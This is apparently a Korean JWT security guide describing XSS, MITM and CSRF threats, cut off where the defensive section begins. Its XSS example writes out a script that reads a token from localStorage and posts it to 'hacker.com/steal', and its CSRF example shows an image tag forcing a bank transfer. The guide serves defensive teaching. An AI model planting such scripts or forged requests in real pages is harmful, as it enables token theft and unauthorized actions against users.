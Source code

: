 # JWT 보안 가이드

## 📋 개요

JWT(JSON Web Token) 사용 시 발생할 수 있는 보안 위협과 이를 방어하는 방법에 대한 종합 가이드입니다.

---

## 🚨 JWT 보안 위협

### 1. XSS (Cross-Site Scripting) 공격
```javascript
// 악성 스크립트가 페이지에 삽입됨
<script>
  // 😈 공격자가 JWT 토큰 훔치기
  const token = localStorage.getItem('token');
  fetch('http://hacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({token: token})
  });
</script>
```

**위험도**: 🔴 **매우 높음**
**피해**: 사용자 인증 정보 완전 탈취

### 2. MITM (Man-in-the-Middle) 공격
```
👤 사용자 ──HTTP──> 🕵️ 공격자 ──HTTP──> 🖥️ 서버
                    ↑
                JWT 토큰 가로채기
```

**위험도**: 🟡 **중간** (공개 WiFi 등)
**피해**: 네트워크 트래픽 도청으로 토큰 탈취

### 3. CSRF (Cross-Site Request Forgery) 공격
```html
<!-- 악성 사이트에서 -->
<img src="http://bank.com/transfer?to=hacker&amount=1000000" />
<!-- 사용자가 은행에 로그인되어 있다면 자동 실행 -->
```

**위험도**: 🟠 **높음**
**피해**: 사용자 모르게 악의적인 요청 실행

---

## 🛡️ 보안 해결책

### 1. HttpOnly Cookie 사용
